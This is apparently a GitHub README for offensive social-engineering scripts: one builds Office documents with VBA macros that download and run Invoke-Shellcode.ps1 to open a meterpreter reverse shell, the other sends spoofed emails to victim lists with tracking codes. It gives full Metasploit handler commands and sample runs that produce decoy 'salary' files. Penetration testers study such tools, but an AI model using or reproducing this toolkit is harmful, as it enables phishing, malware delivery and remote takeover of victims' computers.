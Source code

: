 # Social-Engineering-Toys
Social Engineering Toys  
**injectShell.py**  
  
The script generates office documents (xls, doc and ppt) that includes VBA code that downloads and run the Invoke-Shellcode.ps1 (creates a meterpreter reverse shell back to server) when the victim enables Macro in the document.  
  
You will need to run the windows/meterpreter/reverse_https payload on your the attacker host.  
```
$ ./msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_https
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
```
  
Below is the help screen of the script.  
```
$  python injectShell.py -h
usage: injectShell.py [-h] [-t T] [-o O] [-ip IP] [-port PORT]

optional arguments:
  -h, --help  show this help message and exit
  -t T        [xls|doc|ppt|all]
  -o O        [output filename (without extension)]
  -ip IP      [meterpreter listener ip address]
  -port PORT  [meterpreter listener port]

```

Below is the script in action.  

```
$  python injectShell.py -t all -o salary -ip 192.168.1.6 -port 1111 
- Generated: salary.xls
- Generated: salary.doc
- Generated: salary.ppt
```
    
     
   
    
**sendEmail.py**  
This script is useful in sending spoofed emails to some SMTP servers. This can be useful in social engineering engagements.    
  
Below is the help screen of the script.    
```
$ python sendEmail.py -h
usage: sendEmail.py [-h] [-f F] [-n N] [-e E] [-t T] [-iL IL] [-v]

optional arguments:
  -h, --help  show this help message and exit
  -f F        [html file containing the email body]
  -n N        [recipient name]
  -e E        [recipient email]
  -t T        [delay between 1 to x seconds (random)]
  -iL IL      [file containing recipient name and email addresses per line
              separated by comma]
  -v          [verbose]
```
  
Below is the script in action.  
```
$ python sendEmail.py -iL namelist.txt -f sampleHtml.txt -t 10
Sending email to: test01@example.com  
```
  
Below are two sample formats of namelist.txt  
**Below is sample 1**  
The fields are separated by ","   
The first field is: recipient's name  
The second field is: recipient's email address  


```
Keith,keith123@hotmail.com
```

**Below is sample 2**  
The first field is: recipient's name  
The second field is: recipient's email address  
The last field is: tracking code  

```
Keith,keith123@hotmail.com,UAG21E
```
